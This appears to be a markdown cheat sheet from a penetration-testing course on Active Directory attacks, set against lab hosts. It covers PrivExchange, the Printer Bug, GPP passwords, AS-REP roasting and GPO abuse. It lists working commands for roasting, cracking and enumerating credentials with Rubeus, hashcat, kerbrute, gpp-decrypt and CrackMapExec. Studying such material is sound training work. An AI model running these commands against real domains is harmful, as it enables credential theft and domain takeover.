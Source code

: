 ## Key Concepts:

- The **Exchange Windows Permissions** group, if misconfigured, allows for DCSync privileges.
- The **Organization Management** group grants extensive control over Exchange and mailboxes.
- Compromised Exchange servers are prime targets for credential dumping.
- **PrivExchange**: Exploiting the PushSubscription feature for NTLM relay and potential domain compromise.

---

# Printer Bug (MS-RPRN Protocol Flaw)

## Key Concepts:

- The **MS-RPRN protocol flaw** allows for NTLM relay via the Print Spooler service.
- This can lead to **DCSync privileges** or **Resource-Based Constrained Delegation (RBCD) exploitation**.
- It can be used to attack **across forest trusts**.

### Commands:

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

---

# MS14-068 (Kerberos PAC Forging)

## Key Concepts:

- This vulnerability allows for **forging Kerberos PACs** to elevate privileges.
- **Patching** is the only effective defense.

---

# Sniffing LDAP Credentials

## Key Concepts:

- Exploiting weak configurations in **applications and printers that store LDAP credentials**.
- Using **netcat** to capture credentials.

---

# Enumerating DNS Records (adidnsdump)

## Key Concepts:

- Using **adidnsdump** to discover hidden DNS records.

### Commands:

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

---

# Other Misconfigurations

### Password in Description Field:

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### PASSWD_NOTREQD Field:

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

### Credentials in SMB Shares and SYSVOL Scripts:

```bash
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs
```

---

# Group Policy Preferences (GPP) Passwords

## Key Concepts:

- Exploiting **cpassword** values in GPP XML files.
- Using **gpp-decrypt** and **CrackMapExec**.

### Commands:

```bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
crackmapexec smb -L | grep gpp
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

---

# AS-REP Roasting

## Key Concepts:

- Exploiting accounts with **"Do not require Kerberos pre-authentication"** enabled.
- Using **Rubeus, Hashcat, and Kerbrute**.

### Commands:

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

```bash
./Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

---

# Group Policy Object (GPO) Abuse

## Key Concepts:

- Exploiting **misconfigured GPO permissions** for **privilege escalation** and **persistence**.
- Abusing GPOs to:
    - Add **local admin accounts**
    - Create **scheduled tasks**
    - Grant **additional privileges** to users